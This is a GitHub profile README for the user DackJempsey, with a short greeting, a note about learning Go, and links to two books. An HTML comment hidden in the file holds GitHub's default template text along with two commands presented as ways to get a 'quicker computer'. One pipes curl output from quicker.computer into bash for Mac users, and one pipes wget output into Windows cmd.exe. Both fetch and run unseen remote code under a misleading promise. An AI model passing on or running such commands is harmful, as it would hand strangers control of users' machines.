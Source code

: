## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions. 

### Currentl Learning
Working on sharpening my Go programing skills. Be sure to check in for more repos.

### Current Books
[Black Hat Go](https://nostarch.com/blackhatgo)
[Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)

<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
